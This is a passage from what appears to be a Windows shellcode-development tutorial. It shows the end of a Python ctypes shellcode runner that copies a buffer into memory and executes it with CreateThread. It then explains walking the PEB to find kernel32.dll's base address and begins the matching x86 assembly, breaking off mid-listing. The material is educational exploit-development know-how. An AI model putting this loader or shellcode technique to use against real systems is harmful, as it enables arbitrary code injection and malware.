 ```python

ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))

print("Shellcode located at address %s" % hex(ptr))
input("...ENTER TO EXECUTE SHELLCODE...")

ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_int(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))

ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht), ctypes.c_int(-1))
```

## 1. Resolving Kernel32.dll

By obtaining the base address of *`kernel32.dll`* and resolving its exported functions, we’ll be able to load additional DLLs using *`LoadLibraryA`* and leverage *`GetProcAddress`* to resolve functions within them. We need to find the base address of the imported `kernel32.dll` dynamically to ensure our shellcode works across various versions of Windows. We utilise what is referred to as the PEB method. The operating system allocates the Process Environment Block (PEB) structure for each active process. Locating it involves inspecting the process memory, commencing from the address stored in the FS register. In 32-bit iterations of the Windows operating system, the FS register invariably holds a reference to the present Thread Environment Block (TEB), which, in turn, is a data structure housing details about the currently-running thread.

A brief summary of the technique provided below:

- The `FS` register which on 32bit systems always point to the TEB’s base address.
- Traverse the `TEB` to find our address, which stores information about our current running thread.
- The `TEB` structure, holds a pointer at offset `0x30` to our `PEB`. We care about the `_PEB_LDR_DATA` structure within `PEB` located at offset `0x0C` inside the PEB.
- The specific pointer references three linked lists revealing the loaded modules that is mapped into the process space. Effectively we parse the `InInitializationOrderModuleList` doubly-linked list and use the `BaseDllName` field to find our desired module until we have a match. When dumping the structure we subtract the value `0x10` from the address of the `_LIST_ENTRY` structure in order to reach the beginning of the *`LDR_DATA_TABLE_ENTRY`* structure.
    - *InLoadOrderModuleList* shows the previous and next module in load order.
    - *InMemoryOrderModuleList* shows the previous and next module in memory placement order.
    - *InInitializationOrderModuleList* shows the previous and next module in initialization order.
- Once we have our matching name, we gather the base address from the `DllBase` field.

The above process can be recreated using the below assembly instructions to retrieve the `kernel32.dll` base address.

```python
" start:                             "  #
    "   mov   ebp, esp                  ;"  #
    "   add   esp, 0xfffff9f0           ;"  #   allocate space for our exploit avoiding NULL bytes

    " find_kernel32:                     "  #
    "   xor   ecx, ecx                  ;"  #   ECX = 0
    "   mov   esi,fs:[ecx+0x30]         ;"  #   ESI = &(PEB) ([FS:0x30])
    "   mov   esi,[esi+0x0C]            ;"  #   ESI = PEB->Ldr
    "   mov   esi,[esi+0x1C]            ;"  #   ESI = PEB->Ldr.InInitOrder

    " next_module:                       "  #
    "   mov   ebx, [esi+0x08]           ;"  #   EBX = InInitOrder[X].base_address
    "   mov   edi, [esi+0x20]           ;"  #   EDI = InInitOrder[X].module_name
    "   mov   esi, [esi]                ;"  #   ESI = InInitOrder[X].flink (next)
```